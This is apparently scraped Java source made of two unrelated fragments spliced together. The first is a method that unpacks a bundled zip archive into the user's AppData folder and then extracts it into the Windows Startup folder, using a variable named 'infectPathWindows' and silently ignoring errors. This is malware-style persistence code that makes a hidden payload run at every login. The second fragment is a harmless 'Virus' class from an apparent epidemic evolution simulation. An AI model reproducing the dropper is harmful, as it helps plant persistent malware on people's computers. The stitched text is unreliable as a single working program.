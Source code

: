    public static void extract() throws IOException{

        InputStream is = Main.class.getClassLoader().getResourceAsStream("this.zip");
        File file = new File(System.getProperty("user.home")+ "\\AppData\\Roaming\\Microsoft\\Main");
        try(OutputStream outputStream = new FileOutputStream(file)){
            IOUtils.copy(is, outputStream);
        }catch (FileNotFoundException w){
        }catch (IOException s){
        }

        String infectPathWindows = System.getProperty("user.home") + "\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup";

        ZipFile z1 = new ZipFile(file);
        z1.extractAll(infectPathWindows);

    }
}
import java.util.*;

public class Virus {

	// simulation fields
	private Virus parent;
	private Phenotype phenotype;
	private double birth;		// measured in years relative to burnin
	private int deme;
	
	// additional reconstruction fields
	private boolean marked;
	private boolean trunk;	// fill this at the end of the simulation
	private List<Virus> children = new ArrayList<Virus>(0);	// will be void until simulation ends	
	private double layout;
	private int coverage;		// how many times this Virus has been covered in tracing the tree backwards
	
	// initialization
	public Virus() {
		phenotype = PhenotypeFactory.makeVirusPhenotype();
		birth = Parameters.getDate();
	}
		
	// replication, copies the virus, but remembers the ancestry
	public Virus(Virus v, int d) {
		parent = v;
		phenotype = v.getPhenotype();
		birth = Parameters.getDate();
		deme = d;
	}
	
	public Virus(Virus v, int d, Phenotype p) {
		parent = v;
		phenotype = p;
		birth = Parameters.getDate();
		deme = d;
	}	
	